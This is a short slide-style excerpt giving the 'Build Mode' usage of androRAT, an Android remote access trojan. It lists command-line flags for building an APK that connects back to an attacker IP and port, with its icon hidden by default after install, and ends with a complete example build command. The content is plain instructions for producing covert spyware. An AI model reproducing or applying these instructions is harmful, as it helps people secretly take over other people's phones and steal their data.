

# Build Mode
2.   To build the apk using desired ip and port:
python3 androRAT.py --build [flags]
Flags:
-i, –ip Attacker IP address (required)
-p, –port Attacker port number (required)
-o, –output Name for the apk file (optional)
-icon, –icon Visible icon after installing apk (by default set to hidden)
Example: python3 androRAT.py --build -i 192.168.0.110 -p 8000 -o attacker.apk